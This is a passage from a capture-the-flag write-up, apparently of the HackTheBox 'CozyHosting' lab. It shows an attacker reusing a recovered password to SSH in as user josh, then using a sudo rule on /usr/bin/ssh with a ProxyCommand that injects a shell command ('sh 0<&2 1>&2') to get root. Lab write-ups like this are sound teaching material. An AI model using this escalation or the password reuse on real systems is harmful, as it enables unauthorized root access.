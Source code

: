 I know that there's one user on this system, likely to be the administrator:

```console
app@cozyhosting:/app$ ls /home    
ls /home
josh
```

So I'll check if Josh reused the same password for his shell login:

```console
$ ssh josh@$t
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

[...]

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ 

josh@cozyhosting:~$ cat user.txt
dd510f[...]
```

## Privilege Escalation

Checking `sudo`:

```console
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Easy enough:

```console
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
8acbc8[...]
```
